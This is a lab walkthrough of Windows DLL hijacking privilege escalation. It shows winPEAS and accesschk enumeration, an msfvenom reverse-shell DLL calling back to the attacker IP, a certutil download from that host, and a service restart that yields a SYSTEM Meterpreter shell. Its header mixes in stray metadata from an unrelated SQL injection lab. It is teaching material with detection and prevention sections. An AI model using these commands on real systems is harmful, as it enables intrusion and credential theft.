

# DLL Hijacking

**Date:** July 2026<br>
**Author:** ShahinSecLab<br>
**Category:** SQL Injection<br>
**Vulnerability:** UNION-based SQL Injection<br>
**Difficulty:** Easy<br>
**Platform:** PortSwigger Web Security Academy<br>
**Database:** PostgreSQL<br>
**Tools:** Burp Suite Community Edition, Firefox
**Date:** June 2026<br>
**Author:** ShahinSecLab<br>
**Category:** Privilege Escalation<br>
**Difficulty:** Medium<br>
**Tools:** msfvenom, Metasploit, winPEAS, accesschk.exe

# Table of Contents

* [Introduction](#introduction)
* [Attack Flow](#attack-flow)
* [Why This Attack Works](#why-this-attack-works)
* [Lab Setup](#lab-setup)
* [Tools Used](#tools-used)
* [Prerequisites](#prerequisites)
* [Step 1 — Finding the DLL Hijacking Opportunity](#step-1--finding-the-dll-hijacking-opportunity)
* [Step 2 — Checking Service Permissions with accesschk.exe](#step-2--checking-service-permissions-with-accesschkexe)
* [Step 3 — Checking the Service Configuration](#step-3--checking-the-service-configuration)
* [Step 4 — Generating a Malicious DLL and Downloading it to the Victim](#step-4--generating-a-malicious-dll-and-downloading-it-to-the-victim)
* [Step 5 — Restarting the Service and Getting a SYSTEM Shell](#step-5--restarting-the-service-and-getting-a-system-shell)
* [How Defenders Can Catch This](#how-defenders-can-catch-this)
* [How to Prevent It](#how-to-prevent-it)
* [References](#references)
* [Lessons Learned](#lessons-learned)

# Introduction

DLL Hijacking is a privilege escalation technique that takes advantage of how Windows loads DLL files. When a service or program looks for a DLL, Windows searches through a list of folders in a specific order. If I can drop a malicious DLL in a folder that Windows checks before the real one — and that folder is writable by normal users — Windows loads my DLL instead. Since the service runs as SYSTEM, my malicious DLL runs as SYSTEM too.

## Attack Flow
```
Already had a low privilege Meterpreter shell on the victim
                        ↓
Ran winPEAS — flagged C:\Temp as writable by Authenticated Users
                        ↓
Checked service permissions with accesschk.exe
                        ↓
Found SERVICE_START and SERVICE_STOP for dllsvc
                        ↓
Checked service config — dllsvc runs as LocalSystem (SYSTEM)
                        ↓
Started dllsvc to confirm it loads DLLs from C:\Temp
                        ↓
Generated malicious hijackme.dll on Kali with msfvenom
                        ↓
Started Metasploit listener on port 4444
                        ↓
Downloaded hijackme.dll to C:\Temp on the victim using certutil
                        ↓
Stopped and restarted dllsvc
                        ↓
Service loaded hijackme.dll from C:\Temp as SYSTEM
                        ↓
Metasploit caught the shell
                        ↓
whoami → nt authority\system
                        ↓
Ran hashdump — dumped all password hashes from the machine
```

# Why This Attack Works

When a Windows service starts, it loads DLL files it needs to run. Windows searches for those DLL files in this order:
```
1. The folder where the application is installed
2. C:\Windows\System32
3. C:\Windows\System
4. C:\Windows
5. The current working directory
6. Folders listed in the PATH environment variable
```
If a folder early in that search order is writable by normal users, I can drop a malicious DLL there. Windows picks it up before ever finding the real one — and runs it as `SYSTEM`.

## Lab Setup

|    Component     |         Details         |
|------------------|-------------------------|
| Attacker Machine | Kali Linux              |
| Attacker IP      | `192.168.5.128`           |
| Victim Machine   | Windows 10 (MSEDGEWIN10)|
| Victim IP        | `192.168.5.144`           |
| Network          | VMware Host-Only Network|
| Domain           | WORKGROUP               |

## Tools Used

|       Tool     |          Location         |            Purpose              |
|----------------|---------------------------|---------------------------------|
| `winPEASany.exe` | `/home/kali/Desktop/tools/` | Find privilege escalation paths |
| `accesschk.exe`  | `/home/kali/Desktop/tools/` | Check service permissions       |
| `msfvenom`       | Built into Kali           | Generate malicious DLL payload  |
| `Metasploit`     | Built into Kali           | Catch reverse shells            |

## Prerequisites

| What | Why |
|------|-----|
| Low privilege Meterpreter session | Starting point for the attack |
| Writable `C:\Temp` directory | Place the malicious DLL where the service loads it |
| Permission to start and stop the service | Restart the service to load the DLL |
| Metasploit | Catch the reverse Meterpreter connection |
| `certutil` on the victim | Download the DLL from the Kali machine |

## Step 1 — Finding the DLL Hijacking Opportunity

I already had a Meterpreter shell on the victim machine as a low privilege user. I ran `winPEAS` to scan for privilege escalation paths.

```bash
C:\PrivEsc>.\winPEASany.exe
```
**Output:**

```
dllsvc(DLL Hijack Service)["C:\Program Files\DLL Hijack Service\dllhijackservice.exe"] - Manual - Stopped
```
<p align="center">
  
</p>

## Step 2 — Checking Service Permissions with accesschk.exe

After finding the `dllsvc` service, I checked the permissions my current user had on that service.


```bash
C:\PrivEsc> .\accesschk.exe /accepteula -uqcv user dllsvc
```

**Breakdown**

| Part | Description |
|------|--------------------------------------------------|
| `/accepteula` | Accepts the Sysinternals license agreement automatically |
| `-u` | Shows user account permissions |
| `-q` | Runs in quiet mode and hides extra information |
| `-c` | Checks permissions on a Windows service |
| `-v` | Shows detailed permission information |
| `user` | The username being checked |
| `dllsvc` | The service name being checked |

**Output:**

```
R dllsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```
The output showed that my user had permission to start and stop the service.

- `SERVICE_START`: I can start the service
- `SERVICE_STOP`: I can stop the service

Since I could control the service state, I could restart it after placing the malicious DLL file. This would force the service to load the DLL.

<p align="center">
  
</p>

## Step 3 — Checking the Service Configuration

After confirming that I could start and stop the service, I checked the service configuration to see how it was running.

```bash
C:\PrivEsc> sc qc dllsvc
```
**Breakdown**

| Part | Description |
|------|--------------------------------------------------|
| `sc` | Windows Service Control command used to manage services |
| `qc` | Displays the configuration of a service |
| `dllsvc` | The name of the service being checked |

**Output:**

```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: dllsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DLL Hijack Service\dllhijackservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DLL Hijack Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
The important part was:
```
SERVICE_START_NAME : LocalSystem
```

This showed that the service was running with `SYSTEM privileges`. If I could make the service load my DLL, the DLL would also run with SYSTEM privileges.

<p align="center">
  
</p>

### Started the Service

I started the service to confirm that it was working correctly.

```bash
C:\PrivEsc>net start dllsvc
```
**Breakdown**

| Part | Description |
|---------|--------------------------------------------------|
| `net` | Windows command used to manage network and service-related functions |
| `start` | Starts a Windows service |
| `dllsvc` | The service name to start |

**Output:**

```
The DLL Hijack Service service is starting.
The DLL Hijack Service service was started successfully.
```
I started the service to confirm it was working and loading DLLs from `C:\Temp`.

<p align="center">
  
</p>

## Step 4 — Generating a Malicious DLL and Downloading it to the Victim

I generated a malicious DLL on my Kali machine using `msfvenom`. This DLL would connect back to my Metasploit listener when it was loaded by the vulnerable service.

### Generated a Malicious DLL on Kali

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.5.128 LPORT=4444 -f dll -o hijackme.dll
```

**Breakdown**

| Part  |            Value                    |                         Description                                  |
|-------|-------------------------------------|----------------------------------------------------------------------|
| `-p`    | windows/x64/meterpreter/reverse_tcp | Creates a 64-bit Windows Meterpreter reverse TCP payload.            |
| `LHOST` | 192.168.5.128                       | My Kali machine's IP address that receives the reverse connection.   |
| `LPORT` | 4444                                | The port on my Kali machine that listens for the incoming connection.|
| `-f`    | dll                                 | Generates the payload as a DLL file.                                 |
| `-o`    | hijackme.dll                        | Saves the generated payload as hijackme.dll.                         |

**Output:**

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
Saved as: hijackme.dll
```
The DLL file was created successfully and was ready to be moved to the victim machine.

<p align="center">
  
</p>

### Started Metasploit Listener on Kali

Before triggering the service, I started a Metasploit listener on my Kali machine to catch the incoming Meterpreter connection.

```bash
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.5.128
set lport 4444
run
```
**Output:**

```
[*] Started reverse TCP handler on 192.168.5.128:4444
```
<p align="center">
  
</p>

### Downloaded the Malicious DLL on the Victim Machine

After starting the Metasploit listener, I downloaded the malicious DLL from my Kali machine to the victim using `certutil`.
First, I moved to the writable `C:\Temp` directory:

```bash
C:\PrivEsc> cd C:\Temp
```
Then I downloaded the DLL file:

```bash
C:\Temp> certutil -urlcache -split -f http://192.168.5.128/hijackme.dll hijackme.dll
```
**Breakdown**

| Part | Description |
|------|--------------------------------------------------|
| `certutil` | Windows built-in utility used to download files |
| `-urlcache` | Uses the URL cache feature to retrieve the file |
| `-split` | Splits downloaded files into smaller parts if needed |
| `-f` | Forces the download even if a file already exists |
| `http://192.168.5.128/hijackme.dll` | URL of the DLL file hosted on my Kali machine |
| `hijackme.dll` | Name used to save the DLL on the victim machine |

**Output:**

```
****  Online  ****
  0000  ...
  2400
CertUtil: -URLCache command completed successfully.
```
The DLL file was downloaded successfully and saved as `hijackme.dll` inside `C:\Temp` on the victim machine.

<p align="center">
  
</p>

## Step 5 — Restarting the Service and Getting a SYSTEM Shell

### Stopped the Service

After placing the DLL file in `C:\Temp`, I stopped the service so that it could be restarted and load the DLL file.

```bash
C:\Temp> net stop dllsvc
```
**Breakdown**

| Part | Description |
|---------|--------------------------------------------|
| `net` | Windows command used to manage services |
| `stop` | Stops a running service |
| `dllsvc` | The name of the service being stopped |

**Output:**

```
The DLL Hijack Service service was stopped successfully.
```

### Started the Service Again

I started the service again to trigger the DLL loading process.

```bash
net start dllsvc
```
**Breakdown**

| Part | Description |
|---------|--------------------------------------------|
| `net` | Windows command used to manage services |
| `start` | Starts a Windows service |
| `dllsvc` | The name of the service being started |

**Output:**

```
The DLL Hijack Service service is starting.
The DLL Hijack Service service was started successfully.
```
When the service started, it loaded the DLL from the writable location. Since the service was running as `LocalSystem`, the DLL also ran with SYSTEM privileges.

### Metasploit Caught the Connection

On my Kali machine, Metasploit received the reverse connection:

```
[*] Started reverse TCP handler on 192.168.5.128:4444 
[*] Sending stage (244806 bytes) to 192.168.5.144
[*] Meterpreter session 1 opened (192.168.5.128:4444 -> 192.168.5.144:62472) at 2026-06-23 08:57:02 -0400
```
### Dropped into a Shell and Checked Privileges

I opened a Windows shell from Meterpreter:

```bash
meterpreter > shell
```
Then I checked the current user:

```bash
C:\Windows\system32> whoami
```
**Output:**

```
nt authority\system
```
<p align="center">
  
</p>

The whoami result confirmed that I had SYSTEM level access. The attack worked because the service loaded my DLL from a writable folder while running with `LocalSystem` privileges.

## How Defenders Can Catch This

| Indicator | What to Look For |
|-----------|------------------|
| New DLL files inside writable folders | Monitor folders like `C:\Temp` for unexpected DLL files |
| Service loading DLL files from unusual locations | Check service configurations and loaded DLL paths |
| Users starting or stopping sensitive services | Review Windows Service Control Manager logs |
| A service running as `LocalSystem` loading user-controlled files | Monitor high privilege processes and DLL loads |
| Unexpected Meterpreter or reverse shell connections | Check firewall logs and network monitoring |
| Suspicious DLL files created before a service restart | Monitor file creation events and process activity |


## How to Prevent It

### Restrict folder permissions

Make sure normal users cannot write files into folders used by important services.

```powershell
icacls "C:\Program Files\DLL Hijack Service"
```
### Use full DLL paths

Applications should load DLL files from trusted locations instead of depending on the default DLL search order.

### Remove unnecessary service permissions

Normal users should not have permission to start, stop, or modify important services.

### Run services with minimum privileges

Avoid running services as `LocalSystem` unless it is required.

### Monitor DLL loading

Use tools like Sysmon to detect unusual DLL loading from user-writable locations.

### Keep software updated

Install security updates and regularly check installed applications for known issues.

## References

| Resource | Link |
|----------|------|
| Microsoft — Dynamic-Link Library Search Order | https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order |
| Microsoft Sysinternals — AccessChk | https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk |
| Microsoft — Windows Services Security | https://learn.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights |
| HackTricks — Windows DLL Hijacking | https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dll-hijacking/index.html |
| MITRE ATT&CK — DLL Search Order Hijacking (T1574.001) | https://attack.mitre.org/techniques/T1574/001/ |

## Lessons Learned

While working through this attack, I learned that:

- A writable folder in the DLL search path can lead to SYSTEM access.
- Checking service permissions is an important step during Windows privilege escalation.
- `winPEAS` helped identify the possible DLL Hijacking path quickly.
- `accesschk.exe` showed that my user could control the service.
- A service running as `LocalSystem` can make a DLL Hijacking attack more dangerous.
- `msfvenom` can create DLL files that can be loaded by vulnerable services.
- Restarting the service forced Windows to load the DLL from the writable location.
- Small service permission mistakes can allow a normal user to gain full SYSTEM access.